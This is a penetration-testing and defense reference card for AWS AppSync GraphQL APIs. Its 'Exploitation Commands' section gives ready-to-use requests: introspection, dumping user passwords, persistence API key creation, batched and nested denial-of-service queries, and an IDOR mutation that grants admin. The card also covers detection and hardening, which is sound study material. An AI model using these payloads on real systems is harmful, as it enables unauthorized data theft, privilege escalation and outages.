

#  AWS AppSync Security



> **Category**: MANAGED GRAPHQL

AWS AppSync is a managed GraphQL service that connects applications to data sources including DynamoDB, Lambda, HTTP endpoints, and RDS. It provides real-time subscriptions and offline sync. Attackers exploit GraphQL introspection, authorization flaws, and resolver misconfigurations.

## Quick Stats

| Risk Level | Query Language | Methods | Subscriptions |
| --- | --- | --- | --- |
| **HIGH** | **GraphQL** | **5 Auth** | **Real-time** |

## Service Overview

### GraphQL API Architecture

AppSync APIs define a GraphQL schema with types, queries, mutations, and subscriptions. Resolvers connect schema fields to data sources. VTL (Velocity Template Language) or JavaScript resolvers transform requests and responses.

> Attack note: Introspection reveals the complete API schema - all types, fields, and operations available

### Authentication Methods

AppSync supports API Key, Cognito User Pools, OIDC, IAM, and Lambda authorizers. Multiple auth types can be enabled simultaneously. Field-level authorization controls access to specific schema elements.

> Attack note: API keys in client code or misconfigured Cognito pools allow unauthorized API access

## Security Risk Assessment

`████████░░` **8.0/10** (CRITICAL)

AppSync APIs often expose sensitive business data through GraphQL. Introspection reveals the complete API surface, resolver misconfigurations enable data access bypass, and compromised API keys or auth tokens provide full query capabilities.

## ⚔️ Attack Vectors

### GraphQL Exploitation

- Introspection query to discover schema
- Batch queries for denial of service
- Deeply nested queries for resource exhaustion
- Query injection via variable manipulation
- Subscription hijacking for data streaming

### Authorization Bypass

- Access fields without proper auth directives
- Exploit missing resolver authorization
- Bypass Cognito group restrictions
- Use expired or stolen API keys
- IDOR via predictable ID fields

## ⚠️ Misconfigurations

### Schema & Resolver Issues

- Introspection enabled in production
- Missing @auth directives on sensitive fields
- Resolver returns all DynamoDB attributes
- No query depth/complexity limits
- Lambda resolver with excessive permissions

### Authentication Problems

- API key exposed in frontend code
- Long API key expiration (365 days)
- Cognito pool allows self-registration
- Missing field-level authorization
- IAM auth with overprivileged roles

## 🔍 Enumeration

**List GraphQL APIs**
```bash
aws appsync list-graphql-apis
```

**Get API Details**
```bash
aws appsync get-graphql-api \\
  --api-id abc123def456
```

**List API Keys**
```bash
aws appsync list-api-keys \\
  --api-id abc123def456
```

**Get Schema (Introspection)**
```bash
aws appsync get-introspection-schema \\
  --api-id abc123def456 \\
  --format SDL \\
  schema.graphql
```

**List Data Sources**
```bash
aws appsync list-data-sources \\
  --api-id abc123def456
```

## 🔎 Introspection Attacks

### Schema Discovery

- Query __schema to get all types
- Enumerate queries, mutations, subscriptions
- Discover hidden admin operations
- Find sensitive field names (password, ssn)
- Map relationships between types

### Reconnaissance Value

- Complete API documentation exposure
- Identify data model and business logic
- Find deprecated but still active fields
- Discover internal-only operations
- Map authorization requirements

> **First Step:** Always run introspection query first - it reveals the complete attack surface.

## ⚡ Resolver Exploitation

### VTL Injection

- Inject into $context.arguments
- Manipulate DynamoDB scan filters
- Bypass authorization in resolver logic
- Access $context.identity for impersonation
- Exploit string concatenation in templates

### Data Source Abuse

- DynamoDB scan returning all items
- Lambda resolver with excessive IAM
- HTTP resolver to internal endpoints
- RDS resolver with SQL injection
- OpenSearch resolver query manipulation

## 🛡️ Detection

### CloudTrail Events

- GetIntrospectionSchema - schema download
- CreateApiKey - new API key created
- UpdateGraphqlApi - API configuration changed
- UpdateResolver - resolver modified
- CreateDataSource - new data source added

### Indicators of Compromise

- Introspection queries in CloudWatch logs
- High volume of failed auth attempts
- Deeply nested or batched queries
- API key usage from unusual IPs
- Unauthorized field access in resolvers

## Exploitation Commands

**Introspection Query**
```bash
curl -X POST \\
  -H "x-api-key: da2-xxxxxxxxxxxx" \\
  -H "Content-Type: application/json" \\
  -d '{"query":"query { __schema { types { name fields { name } } } }"}' \\
  https://xxxxxx.appsync-api.us-east-1.amazonaws.com/graphql
```

**Get All Data (No Pagination)**
```bash
curl -X POST \\
  -H "x-api-key: da2-xxxx" \\
  -d '{"query":"query { listUsers { items { id email password } } }"}' \\
  https://xxx.appsync-api.us-east-1.amazonaws.com/graphql
```

**Create API Key (Persistence)**
```bash
aws appsync create-api-key \\
  --api-id abc123 \\
  --description "backup-key" \\
  --expires $(date -d "+365 days" +%s)
```

**Download Full Schema**
```bash
aws appsync get-introspection-schema \\
  --api-id abc123 \\
  --format SDL \\
  schema.graphql
```

**List Resolvers**
```bash
aws appsync list-resolvers \\
  --api-id abc123 \\
  --type-name Query
```

**Get Resolver Code (VTL)**
```bash
aws appsync get-resolver \\
  --api-id abc123 \\
  --type-name Query \\
  --field-name getUser
```

**Full Introspection Query**
```bash
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      name
      fields {
        name
        args { name type { name } }
        type { name }
      }
    }
  }
}
```

**Batched Query DoS**
```bash
query {
  user1: getUser(id: "1") { name email }
  user2: getUser(id: "2") { name email }
  user3: getUser(id: "3") { name email }
  # ... repeat 100+ times
}
```

**Deeply Nested Query**
```bash
query {
  user(id: "1") {
    posts {
      comments {
        author {
          posts {
            comments {
              author { name }
            }
          }
        }
      }
    }
  }
}
```

**IDOR Exploitation**
```bash
mutation {
  updateUser(id: "other-user-id", input: {
    role: "admin"
  }) {
    id
    role
  }
}
```

## Policy Examples

### ❌ Dangerous - No Auth Directive

```json
type Query {
  getUser(id: ID!): User
  listUsers: [User]
  getSecrets: [Secret]
}
```

*No @auth directives - anyone with API access can query all data*

### ✅ Secure - Auth Directives

```json
type Query {
  getUser(id: ID!): User @auth(rules: [{allow: owner}])
  listUsers: [User] @auth(rules: [{allow: groups, groups: ["Admin"]}])
}

type Secret @auth(rules: [{allow: private}]) {
  id: ID!
  value: String!
}
```

*Field and type-level authorization restricts access*

### ❌ Dangerous - Overprivileged Resolver Role

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "dynamodb:*",
    "Resource": "*"
  }]
}
```

*Resolver IAM role can access any DynamoDB table*

### ✅ Secure - Scoped Resolver Role

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["dynamodb:GetItem", "dynamodb:Query"],
    "Resource": "arn:aws:dynamodb:us-east-1:*:table/Users",
    "Condition": {
      "ForAllValues:StringEquals": {
        "dynamodb:LeadingKeys": ["\${appsync:sub}"]
      }
    }
  }]
}
```

*Resolver can only access current user's items*

## Defense Recommendations

### 🚫 Disable Introspection in Production

Turn off introspection queries to prevent schema discovery.

```bash
aws appsync update-graphql-api \\
  --api-id abc123 \\
  --introspection-config DISABLED
```

### 🔐 Implement Field-Level Authorization

Add @auth directives to all sensitive types and fields in schema.

```bash
type Secret @auth(rules: [
  {allow: groups, groups: ["Admin"]}
]) { ... }
```

### ⏱️ Rotate API Keys Frequently

Set short expiration (7 days) and rotate API keys regularly.

### 🔒 Use Cognito or IAM Over API Keys

Prefer user-based auth (Cognito) or IAM for production APIs.

### 📊 Implement Query Depth Limits

Use AWS WAF or custom Lambda authorizer to limit query complexity.

```bash
# WAF rule for query depth
# Block if nested levels > 5
```

### 📝 Enable CloudWatch Logging

Log all GraphQL operations including field-level resolver execution.

```bash
--log-config fieldLogLevel=ALL,
excludeVerboseContent=false
```

---

*AWS AppSync Security Card*

*Always obtain proper authorization before testing*
